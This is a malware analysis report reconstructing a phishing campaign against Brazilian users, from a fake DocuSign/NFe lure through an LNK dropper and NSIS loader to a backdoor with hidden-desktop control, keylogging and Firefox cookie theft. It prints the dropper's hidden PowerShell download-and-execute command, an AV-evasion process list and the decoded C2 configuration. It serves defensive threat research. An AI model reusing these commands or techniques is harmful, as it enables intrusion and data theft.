This report documents an end-to-end reconstruction of a phishing-to-backdoor infection chain observed targeting Brazilian users through a spoofed DocuSign / NFe (nota fiscal eletrônica) delivery notice. All indicators, code excerpts and infrastructure findings in this document were independently verified through static analysis, dynamic analysis (ANY.RUN Sandbox) and OSINT / threat-intel pivoting (ANY.RUN TI Lookup, Shodan).

## Executive Summary

This report documents the full technical reconstruction of a multi-stage malware delivery campaign impersonating DocuSign and Brazilian electronic fiscal documents (NFe/DANFE) to distribute a custom Windows backdoor with hidden-desktop remote control (HVNC-style), keylogging, and Firefox profile-artifact theft capabilities, communicating with its operator over a raw TCP protocol on a non-standard port.

The infection chain comprises four distinct stages, each hosted or staged on different infrastructure, indicating a moderately mature operation that segments delivery, staging and command-and-control (C2) functions:

- Stage 1 - Initial Access: a spoofed DocuSign “document ready for download” page (and a parallel NFe/DANFE-themed lure) with anti-sandbox and anti-automation logic, serving a dynamically generated ZIP archive per visitor.

- Stage 2 - Dropper: a Windows .lnk shortcut disguised as a tax-document receipt, whose target is a hidden PowerShell one-liner that downloads and executes a second-stage binary.

- Stage 3 - Loader: an NSIS self-extracting installer bundling the final payload alongside legitimate-looking runtime DLLs (OpenCV, MSVC redistributables) used as cover noise.

- Stage 4 - Payload: a 64-bit backdoor (masquerading as “Windows Update Assistant” / Microsoft Corporation in its version metadata, while unsigned) implementing AV/EDR discovery, a hidden virtual desktop for remote operator control, keystroke monitoring, Firefox cookie/history/permission theft, and a browser-redirection command - all communicating over TCP/27015 to infrastructure hosted with GHOSTnet GmbH (Frankfurt, DE).

Infrastructure correlation shows the operator uses at least three hosts across two providers: a Microsoft Azure VM for stage-2 payload staging, and two GHOSTnet-hosted VPS instances in the same /16 block - one serving as the live C2 endpoint, the other hosting a completely separate SEO-poisoning phishing site impersonating Banco do Brasil corporate banking (“BB Digital PJ”), suggesting either a multi-campaign operator or a shared bulletproof-hosting reseller used by more than one criminal tenant.

Dynamic detonation of a second, independently captured build confirmed the payload's persistence mechanism (a Startup-folder shortcut pointing to a self-relocated, renamed copy of the payload - MITRE T1547.001) and cross-validated the C2 configuration and download-size findings from static analysis. Threat-intelligence pivoting further surfaced a second Brazilian-bank-themed phishing domain (Caixa Econômica Federal) sharing the same naming convention as the Banco do Brasil clone, and evidence of an alternate ClickFix-based delivery vector under the same NFe lure theme, extending the known campaign timeline to at least four months of activity.

Overall assessment: HIGH confidence that this is a targeted, Portuguese-language financially-motivated campaign against Brazilian users, operationally and technically consistent with prior Silver Fox / Winos4.0-adjacent tradecraft (HVNC architecture, layered XOR string obfuscation, AV-aware behavior, NSIS-based delivery) previously documented by this analyst. Attribution to a specific named actor remains at MEDIUM confidence pending broader cluster correlation.

## Tools & Methodology

The following tools were used throughout this investigation. Where a screenshot placeholder later in this report specifies one of these tools, refer back to this section for general setup notes.

| **Tool**                                | **Role in this investigation**                                                                                                                                                                                                                    |
|-----------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| ANY.RUN Interactive Sandbox             | Dynamic detonation of the phishing page and of extracted samples in an instrumented Windows VM; process tree, network connections, and HTTP/TCP traffic capture.                                                                                  |
| ANY.RUN Threat Intelligence (TI) Lookup | Pivoting on extracted IOCs (destination IPs, hashes, mutexes) across ANY.RUN's global sandbox submission corpus to find related samples and campaign activity. Example query used: destinationIP:"5.230.249.49" OR destinationIP:"40.124.169.27". |
| IDA Pro                                 | Static reverse engineering of the final-stage 64-bit payload: pseudocode recovery of main(), the network/C2 routine, the AV-discovery loop, the XOR string-decoding routines, and the browser-redirection command handler.                        |
| Malcat                                  | Fast static triage: strings extraction/filtering, hex viewing, and cross-referencing of ASCII indicators (AV process names, Firefox profile filenames) inside the final payload.                                                                  |
| Detect It Easy (DIE)                    | PE identification, section entropy mapping, compiler/linker fingerprinting, embedded YARA signature matching, and version-info/resource inspection.                                                                                               |
| Shodan                                  | Passive infrastructure fingerprinting of the identified IPs: open ports, service banners, TLS certificates, and (where exposed) NTLM/RPC hostname leakage.                                                                                        |
| 7-Zip / archive tooling                 | Extraction of the base64-decoded ZIP dropper and of the NSIS installer's appended overlay (containing $PLUGINSDIR and the bundled payload set).                                                                                                  |

## Infection Chain Overview

The table below summarizes the full chain from initial lure to backdoor C2. Each stage is analyzed in detail in the corresponding section.

| **#** | **Stage**      | **Artifact**                                           | **Delivery / Execution mechanism**                                       |
|--------|----------------|--------------------------------------------------------|--------------------------------------------------------------------------|
| 1      | Initial Access | Fake DocuSign / NFe lure page (HTML/JS)                | Phishing link → auto-triggered fetch() to api.php after anti-bot gating  |
| 2      | Dropper        | Comprovante_NFe900439209266.lnk (inside ZIP)           | User double-clicks .lnk → hidden PowerShell → downloads stage 3          |
| 3      | Loader         | loader.exe (NSIS SFX, renamed to *.malw for analysis) | PowerShell Start-Process → NSIS self-extracts payload bundle             |
| 4      | Final Payload  | UpdateAssistant.exe (masquerading as Microsoft)        | Executed from NSIS $PLUGINSDIR → spawns worker threads → connects to C2 |

### Chain Diagram


>*Figure 1: End-to-end infection chain diagram.*

## Stage 1 - Initial Access: Fake DocuSign / NFe Lure Page

### Lure Page Overview

The initial lure clones DocuSign's visual identity, pulling the real logo directly from DocuSign's own CDN (docucdn-a.akamaihd.net) to increase legitimacy while hosting the surrounding page and logic on attacker infrastructure. The document name embedded in the page (“Documento_Contrato_Signado.pdf”) uses a non-native Portuguese construction (“Signado” instead of “Assinado”), suggesting either a non-native Portuguese speaker or machine-generated copy.

A build/campaign marker was found embedded as an HTML comment near the top of the page:

`<!-- 0a4b2aff1c2ebf8b -->`

This value is a strong candidate for a phishing-kit build/campaign fingerprint and should be used to pivot across other captured samples of this kit.


>*Figure 2: Fake DocuSign lure page as rendered in a browser.*

### Anti-Automation and Environment-Fingerprinting Logic

The page implements several layers of bot/sandbox evasion before releasing the payload:

- Headless-browser detection: checks navigator.webdriver, zero-sized outerWidth/outerHeight, the webdriver DOM attribute, and PhantomJS/Nightmare.js global artifacts (window._phantom, window.__nightmare, window.callPhantom).

- Human-interaction gating: the auto-download is only armed after two genuine input events (mousemove, scroll, touchstart, or keydown), with a 3.5-second fallback timer so real users on atypical setups are not blocked outright.

- Silent telemetry beacon: on load, a background fetch() posts navigator.userAgent, language, platform, screen resolution/color depth, timezone, referrer, timestamp and cookie/DNT flags to index.php - almost certainly used server-side to gate which payload variant (or whether any payload at all) is served to a given visitor.

### Payload Delivery Mechanism

Once gating conditions are satisfied, the page issues a POST to api.php and receives a JSON response containing the payload as a base64-encoded ZIP, rather than a direct downloadable link:

```json
{"ok":true,
"nome":"DANFE_SAMSUNG_ELET_AM_CNPJ76680732000152_...zip",
"nome_alternativo":"...same_basename....nfe",
"dados":"<base64 ZIP>",
"hash":"e4d637f8...c1f16c",
"tamanho":3093,
"direct_url":"download_direct.php",
"aviso_smartscreen":"Se o download for bloqueado, use a op\u00e7\u00e3o alternativa (.nfe)"}
```

Key observations: (1) the returned MIME type is forced to application/zip regardless of the “.pdf” styling on the page, indicating a ZIP-in-disguise strategy; (2) an alternate “.nfe” extension is explicitly offered as a Microsoft Defender SmartScreen bypass instruction to the victim; (3) the decoy company data (CNPJ, corporate name) is generated per request using a real, well-known company (Samsung Eletrônica da Amazônia) to raise victim trust; (4) the returned SHA-256 (e4d637f8…) was independently verified to match the decoded ZIP byte-for-byte.


>*Figure 3. Browser DevTools - network capture of the api.php request/response (different payloads for each request).*

## Stage 2 - LNK Dropper

### Archive Contents

The decoded ZIP (SHA-256 e4d637f884f5babea6525266e1cb6ab332a16a446d6084dd51b4222540c1f16c, 3,093 bytes) contains one malicious .lnk shortcut and five plaintext decoy files designed to resemble a genuine NFe receipt bundle:

| **File**                        | **Purpose**                                     |
|---------------------------------|-------------------------------------------------|
| Comprovante_NFe900439209266.lnk | Malicious Windows shortcut - the actual dropper |
| cnpj.txt                        | Decoy - fabricated company tax ID               |
| razao_social.txt                | Decoy - fabricated corporate name               |
| dados_nfe.txt                   | Decoy - fabricated fiscal-document metadata     |
| leiame.txt                      | Decoy - fake “read me” instructions             |
| protocolo.txt                   | Decoy - fabricated protocol/receipt number      |

All five decoy text files are generated dynamically per request (timestamps in their content match the request time), confirming the delivery backend assembles a fresh, unique bundle for every victim rather than serving a static archive.


>*Figure 4. Decoded ZIP archive contents in an archive manager.*

### LNK Target Command Line

Parsing the .lnk with Malcat recovers the full COMMAND_LINE_ARGUMENTS field. The shortcut's apparent target is powershell.exe, with its icon spoofed to notepad.exe to reduce visual suspicion if shortcut icons are inspected. The full decoded command is:

```powershell
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command
"$url='hxxp://40.124.169.27/dl.php?f=NotaFiscal132421323344432026.exe
&k=nfe_valid_access_key_2026_secure';
$out="$env:USERPROFILE\Desktop\\env:USERNAME.exe";
try{Invoke-WebRequest -Uri $url -OutFile $out -UseBasicParsing;
Start-Process $out}catch{}"
```

Technical notes:

- -WindowStyle Hidden -ExecutionPolicy Bypass suppresses both the console window and script-execution restrictions, so the victim sees nothing.

- The download URL includes a static access-gate token (k=nfe_valid_access_key_2026_secure) required by the delivery server - this token is a strong cross-sample pivot: any other LNK/PowerShell command bearing the same key value should be treated as the same campaign/kit.

- The output filename is dynamically derived from %USERNAME%, deliberately avoiding a static, hash-matchable filename across victims.

- The empty catch{} block silently swallows any download/execution failure with no logging, minimizing host-side error artifacts.


>*Figure 5. LNK target command line, parsed with Malcat.*

### LNK Forensic Metadata - Builder Host Correlation

Beyond the command line, the LNK's binary structure embeds forensic metadata written by the Windows shell at creation time. These fields directly correlate the LNK's build environment to the observed C2 infrastructure (see Section 10.2):

| **Field**            | **Value**                                    | **Significance**                                                                                                |
|----------------------|----------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| Machine ID (NetBIOS) | servee                                       | Matches the NetBIOS/RPC hostname later observed on the Azure staging host 40.124.169.27                         |
| Volume Serial Number | 0x24E4EC72                                   | Pivot value - should recur in other LNKs built on the same host                                                 |
| Creator SID          | S-1-5-21-3145646174-4035705298-309474751-500 | RID 500 = built-in local Administrator account on the builder machine                                           |
| Link Creation Time   | 2026-06-07 06:25:13 UTC                      | ≈40 days before this sample's capture - the LNK template/kit has been reused/repackaged over an extended period |


>*Figure 6. Metadata fields.*

### Dynamic Execution - Sandbox Confirmation


>*Figure 7. ANY.RUN process tree showing PowerShell spawned from the LNK.*


>*Figure 8. ANY.RUN network capture - stage-2 payload download from Azure host.*

## Stage 3 - NSIS Loader and Payload Bundle

The file retrieved by the PowerShell command (renamed loader.exe.malw for safe local handling) is a 32-bit PE (376 KiB of headers/sections) with a large, high-entropy overlay (≈22.9 MB, Shannon entropy 7.99, i.e. compressed/encrypted) appended after the last section. The presence of a $PLUGINSDIR directory upon extraction is the definitive signature of an NSIS (Nullsoft Scriptable Install System) self-extracting installer - $PLUGINSDIR is a reserved runtime extraction folder created only by the NSIS engine.

| **Region** | **Offset** | **Size**              | **Entropy** | **Status**                |
|------------|------------|-----------------------|-------------|---------------------------|
| PE Header  | 0x00000000 | 0x00000400            | 2.22        | uncompressed              |
| .text      | 0x00000400 | 0x00006A00            | 6.49        | uncompressed              |
| .rdata     | 0x00006E00 | 0x00001600            | 4.97        | uncompressed              |
| .data      | 0x00008400 | 0x00000600            | 4.17        | uncompressed              |
| .rsrc      | 0x00008A00 | 0x00004400            | 5.92        | uncompressed              |
| Overlay    | 0x0000CE00 | 0x016E3294 (≈22.9 MB) | 7.99        | compressed - NSIS payload |

Extracting the overlay reveals a bundle designed to impersonate a legitimate software update package:

| **File**             | **Size**                  | **Role**                                                                                                           |
|----------------------|---------------------------|--------------------------------------------------------------------------------------------------------------------|
| UpdateAssistant.exe  | 80,632 bytes              | Final-stage payload (analyzed in Section 7)                                                                        |
| opencv_world4120.dll | 23,420,199 bytes (≈22 MB) | Legitimate-sized OpenCV library - accounts for almost the entire overlay; used as cover bulk / plausibility filler |
| concrt140.dll        | 165,965 bytes             | Genuine Microsoft VC++ Concurrency Runtime redistributable - cover noise                                           |
| msvcp140.dll         | 202,880 bytes             | Genuine Microsoft VC++ redistributable - cover noise                                                               |
| vcruntime140.dll     | 85,596 bytes              | Genuine Microsoft VC++ redistributable - cover noise                                                               |
| vcruntime140_1.dll   | 26,639 bytes              | Genuine Microsoft VC++ redistributable - cover noise                                                               |

This is a masquerade pattern rather than classic DLL search-order hijacking: none of the accompanying DLLs are trojanized substitutes for a legitimate host process. Instead, the bundle simply pads the installer with real, large, verifiable-looking libraries so casual inspection (folder size, file count, familiar DLL names) reads as a normal software installer, while UpdateAssistant.exe - the only malicious binary in the set - is executed directly by the NSIS script.


>*Figure 9. NSIS installer overlay contents after extraction.*

## Stage 4 - Final Payload Static Analysis (UpdateAssistant.exe)

### File Overview and Hashes

| **Property**                                  | **Value**                                                        |
|-----------------------------------------------|------------------------------------------------------------------|
| File name                                     | UpdateAssistant.exe (analyzed as UpdateAssistant.exe.malw)       |
| File size                                     | 181,760 bytes (177.5 KiB)                                        |
| MD5                                           | 221dde48737a5484599c87feb4cca979                                 |
| SHA-1                                         | ed883f750efebf23ecfc84ae38361e8ad2af6e70                         |
| SHA-256                                       | 5fbfc7929858c3c3d79637db857525695db3c0f41b9bf2a7b964c26b7226bde3 |
| Imphash                                       | ef93d45afa39a111f2f54c252a29bfea                                 |
| File type                                     | PE32+ (x86-64), GUI subsystem, 6 sections                        |
| PE Timestamp                                  | 2026-07-14 20:54:40 UTC                                          |
| Entry Point                                   | 0x0001CE24 - Image Base 0x140000000                              |
| VersionInfo - CompanyName                     | “Microsoft Corporation” (masquerade - binary is unsigned)        |
| VersionInfo - FileDescription                 | “Windows Update Assistant”                                       |
| VersionInfo - OriginalFilename / InternalName | UpdateAssistant.exe                                              |

The PE compile timestamp (2026-07-14 20:54:40 UTC) is only hours before this sample was captured, and the Certificate Table data directory is empty (no Authenticode signature at all) despite the VersionInfo block claiming Microsoft Corporation authorship - a straightforward metadata-spoofing masquerade (MITRE T1036.005), not a forged/leaked certificate.

### PE Structure and Anomaly Indicators

| **Section** | **Memory range**                      | **Disk range**  | **Notes**                                                |
|-------------|---------------------------------------|-----------------|----------------------------------------------------------|
| .text       | 0x1000–0x1FC5E                        | 0x400–0x1F1FF   | R-X, code                                                |
| .rdata      | 0x20000–0x2A65D                       | 0x1F200–0x299FF | R--, read-only data / XOR-encoded config                 |
| .data       | 0x2B000–0x2D547                       | 0x29A00–0x2A3FF | RW-, mutable data                                        |
| .pdata      | 0x2E000–0x2F493                       | 0x2A400–0x2B9FF | R--, exception tables                                    |
| .rsrc       | 0x30000–(944 B VER, 1.3 KiB MANIFEST) | 0x2BA00–0x2C3FF | Only VersionInfo + Manifest - no hidden resource payload |
| .reloc      | 0x31000–31117                         | 0x2C400–0x2C5FF | R--, base relocations                                    |

DIE's automated anomaly detector flagged the following, all corroborated by manual review in Sections 7.3–8:

| **Category**           | **Flag(s)**                                                        | **Interpretation**                                                                                           |
|------------------------|--------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------|
| Code                   | XorInLoop (23 hits), SpaghettiFunction, HighXrefLoopingFunction    | Multiple single-byte XOR decode loops - confirmed as the string/config deobfuscation mechanism (Section 8.3) |
| Entropy                | BigBufferNoXrefMediumToHighEntropy                                 | Encoded blob(s) consistent with the XOR-protected C2/config data                                             |
| Imports                | DownloaderApiUsage                                                 | Consistent with the network/beacon capability documented in Section 8.2                                      |
| Integrity              | UnsignedMicrosoft, NoChecksum                                      | Confirms the VersionInfo masquerade - file is unsigned yet claims Microsoft authorship                       |
| Strings                | DynamicString(3)                                                   | String values resolved at runtime rather than stored as static plaintext                                     |
| Yara - Suspicious      | BrowserStealer, KeyloggerApi                                       | Corroborated: Firefox artifact targeting (Section 7.3) and keyboard-state polling (Section 8)                |
| Yara - Odd/fingerprint | FingerprintEnvironment, EnumerateProcesses, ListInstalledAntivirus | Corroborated: AV/EDR discovery loop (Section 7.3, 8.2)                                                       |


*Figura 11. Malcat - detailed PE header / section table view.*

### Import Table - Capability Mapping

The import table alone is sufficient to reconstruct the malware's core capabilities without needing to fully trace every function. Grouped by capability:

| **Capability**                | **Representative imports (USER32/GDI32/KERNEL32/ADVAPI32)**                                    |
|-------------------------------|------------------------------------------------------------------------------------------------|
| Hidden virtual desktop (HVNC) | CreateDesktopA, OpenDesktopA, SetThreadDesktop, GetThreadDesktop, CloseDesktop                 |
| Screen capture                | BitBlt, GetDIBits, CreateCompatibleDC, CreateCompatibleBitmap, PrintWindow                     |
| Simulated remote input        | SendInput, PostMessageA, SendMessageA, SetForegroundWindow                                     |
| Keystroke monitoring          | GetAsyncKeyState, GetKeyboardState, SetKeyboardState, MapVirtualKeyA, ToUnicodeEx, GetKeyState |
| Window/target enumeration     | EnumWindows, EnumChildWindows, FindWindowA, GetClassNameA, GetWindowTextA                      |
| AV/EDR & process discovery    | CreateToolhelp32Snapshot, Process32First/Next                                                  |
| Registry / environment recon  | RegOpenKeyExA, RegQueryValueExA, GetUserNameA, SHGetFolderPathA                                |
| Network fingerprinting        | GetAdaptersAddresses (IPHLPAPI)                                                                |

Static string extraction further confirms concrete, hardcoded targeting data rather than generic capability alone:

#### AV/EDR Process List (Security Software Discovery)

Twenty-plus AV/EDR process names are stored as plaintext ASCII, spanning products from multiple regions (not exclusively Chinese security suites, unlike some Silver Fox variants):

```
360sd.exe, 360tray.exe (360 Total Security)
avastservice.exe, avastsvc.exe, avastui.exe (Avast)
avgcsrvx.exe, avgnt.exe, avguard.exe (AVG / Avira)
avp.exe (Kaspersky)
bdagent.exe, vsserv.exe (Bitdefender)
egui.exe, ekrn.exe, esetonlinescanner.exe (ESET)
kxescore.exe (Kingsoft)
mcagent.exe, mcshield.exe, scan32.exe (McAfee)
msmpeng.exe, msseces.exe, windefend.exe (Windows Defender / MSE)
pccpfw.exe (Trend Micro)
rtvscan.exe (Symantec)
vba32lder.exe (VBA32)
```

#### Firefox Profile Artifact Targeting

Three Mozilla Firefox profile filenames are hardcoded in plaintext, confirming direct browser-artifact theft rather than generic “open browser” behavior alone:

```
cookies.sqlite - saved session / authentication cookies
places.sqlite - browsing history and bookmarks
permissions.sqlite - per-site granted permissions (camera, mic, notifications, etc.)
```

*No Chromium-family credential-store filenames (e.g. “Login Data”, “Web Data”) were found as static plaintext; these may be resolved dynamically via the same XOR scheme used elsewhere (Section 8.3) and were not conclusively ruled in or out - flagged as an open item in Section 17.*


>*Figure 11. Malcat strings view - AV process list and Firefox artifact filenames.*


>*Figure 12. DIE - overlay check confirming no hidden resource payload.*

## Stage 4 - Reverse Engineering

### main() - Mutex Gate and Thread Architecture

Decompiled main() reveals a straightforward but deliberate startup sequence:

- A single-instance mutex is created via CreateMutexA using a name resolved dynamically at runtime (not a static string in .rdata). If GetLastError() == 183 (ERROR_ALREADY_EXISTS), the process exits immediately and silently - a standard anti-multiple-execution guard common to RATs/loaders.

- After the mutex check succeeds, a global state flag is set and a worker thread is spawned via _beginthreadex to run the core network/C2 routine (Section 8.2).

- A second, outer loop wraps the worker in try/catch(...) and re-arms it on any unhandled exception, computing the next retry delay via a FILETIME-based helper (~2,000,000,000 × 100ns ≈ 200 seconds) - i.e. the malware is designed to automatically respawn its C2 thread roughly every 3.3 minutes if it dies or the connection drops, rather than terminating on error.


>*Figure 13. IDA - main() pseudocode (mutex gate and thread spawn).*

### sub_14000E540 - AV Discovery, C2 Connection Setup and HVNC Bootstrap

This function is the operational core of the sample and performs, in order:

#### Process Enumeration

Uses CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS) and Process32First/Next to walk the running process list, lower-casing each process name and comparing it against hardcoded substrings. If a match is found, the malware calls Sleep(2000) and SetPriorityClass(GetCurrentProcess(), IDLE_PRIORITY_CLASS) rather than terminating - a deliberate low-and-slow evasion choice: it reduces its own resource footprint/visibility instead of self-destructing, which would otherwise generate an obvious “malware detected AV, exited” telemetry signal for defenders.

#### XOR-Obfuscated C2 Configuration

The C2 hostname is stored as a 12-byte array at .rdata offset 0x140023778, XOR-encoded with the single byte 0x37. The destination port (“27015” - the default Source-engine/Steam game port, chosen to blend with legitimate gaming traffic on casual netflow inspection) is stored as plaintext ASCII.

```
byte_140023778 (raw, .rdata):
02 19 05 04 07 19 05 03 0E 19 03 0E

XOR key: 0x37 (single-byte, applied per-element)

Decoded result: "5.230.249.49" ← confirmed live C2 host
Port (plaintext): "27015"
```

